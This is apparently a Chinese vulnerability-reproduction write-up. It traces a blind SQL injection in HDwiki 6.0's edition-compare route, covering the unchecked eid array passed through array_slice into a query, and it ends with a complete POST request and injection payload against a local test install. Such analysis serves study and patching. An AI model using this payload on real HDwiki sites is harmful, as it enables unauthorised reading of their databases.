






漏洞触发：control/edition.php:147行
路由分析
从index.php入口文件查看cms路由构造和全局变量过滤情况。
跟进model/hdwiki.class.php:86行
第102行：只对get值进行过滤。
第107行：表明cms的路由情况。
执行Payload类与方法调用情况根据第103行与$control->$method();进行

漏洞分析
所以漏洞触发点路由构造为:http://127.0.0.1/cms/HDwiki6.0/hdwiki/index.php?edition-compare
跟进漏洞触发：control/edition.php:147行以post形式传入的参数只对键为0，1进行整数判断。
并通过arrary_slice取值传入sql中进行查询。

array_slice
1
2
| array_slice ( array $array , int $offset [, int $length = NULL [, bool $preserve_keys = false ]] ) : array
array_slice() 返回根据 offset 和 length 参数所指定的 array 数组中的一段序列。
|

跟进model/doc.class.php:978行get_edition方法。当eid为数组直接传入，直接进行sql查询

Payload
1
2
3
4
5
6
7
8
9
10
11
12
13
14
| POST /cms/HDwiki6.0/hdwiki/?edition-compare HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/cms/HDwiki6.0/hdwiki/?edition-compare
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: hd_sid=0thun8; hd_searchtime=1556181631; PHPSESSID=qpap19nk97soi6lfbo8ghp7oj2
Upgrade-Insecure-Requests: 1
Content-Length: 78
eid[2]=1&eid[3]=1) or if(ascii(substr(user(),1,1))=115,1,0)#&eid[0]=3&eid[1]=4
|


参考链接：
https://mochazz.github.io/2018/03/05/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E4%B9%8BHDwiki6.0%EF%BC%88%E5%A4%8D%E7%8E%B0%EF%BC%89/
https://xz.aliyun.com/t/2087